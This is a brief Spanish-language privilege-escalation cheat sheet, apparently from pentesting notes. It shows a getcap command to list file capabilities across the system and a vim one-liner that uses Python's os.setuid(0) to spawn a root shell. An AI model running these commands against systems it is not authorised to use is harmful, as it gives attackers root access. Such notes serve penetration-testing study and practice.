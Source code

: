 # Capabilities

## Capabilities

{% code overflow="wrap" %}
```bash
getcap -r / 2>/dev/null   #Enumera capabilities

# Luego, buscar en GTFOBins cómo explotar la capability
```
{% endcode %}

Ejemplo vim capability

{% code overflow="wrap" %}
```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
{% endcode %}
